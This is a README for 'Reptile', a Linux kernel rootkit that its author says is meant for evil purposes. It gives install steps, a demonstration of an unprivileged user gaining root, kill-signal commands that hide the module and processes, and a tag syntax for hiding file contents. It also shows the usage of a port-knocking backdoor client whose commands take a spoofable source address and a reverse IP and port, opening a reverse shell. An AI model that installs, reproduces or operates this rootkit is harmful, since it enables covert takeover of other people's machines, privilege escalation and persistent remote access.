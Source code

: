 # Reptile

Reptile is a LKM rootkit for evil purposes. If you are searching stuff only for study purposes, see the [demonstration codes](https://github.com/f0rb1dd3n/papers/tree/master/rootkit_demonstration).

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Boot persistence
- Heaven's door - A ICMP/UDP port-knocking backdoor
- Client to knock on heaven's door :D
    
## Install

```
apt-get install linux-headers-$(uname -r)
https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

```
hax@Debian:~$ id
uid=1000(hax) gid=1000(hax) grupos=1000(hax),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),114(bluetooth),118(scanner)
hax@Debian:~$ /reptile/r00t
You got super powers!

root@Debian:/home/hax# id
uid=0(root) gid=0(root) groups=0(root)
```

### Hiding

- Hide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Knocking on heaven's door

Heaven's door is a ICMP/UDP port-knocking backdoor used by Reptile. To access the backdoor you can use the client: 
```
Knock Knock on Heaven's Door
Writen by: F0rb1dd3n

Usage: ./knock_on_heaven <args>

-x      protocol (ICMP/UDP)
-s      Source IP address (You can spoof)
-t      Target IP address
-p      Source Port
-q      Target Port
-d      Data to knock on backdoor: "<key> <reverse IP> <reverse Port>"
-l      Launch listener

[!] ICMP doesn't need ports

ICMP: ./knock_on_heaven -x icmp -s 192.168.0.2 -t 192.168.0.3 -d "F0rb1dd3n 192.168.0.4 4444" -l
UDP:  ./knock_on_heaven -x udp  -s 192.168.0.2 -t 192.168.0.3 -p 53 -q 53 -d "F0rb1dd3n 192.168.0.4 4444" -l

```

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/

## Contributing

I am open to receiving contributions. If you can contribute with this project, discuss the contribution via e-mail or open an issue, fork the project and make a pull request. I will evaluate pull requests and merge to the project.
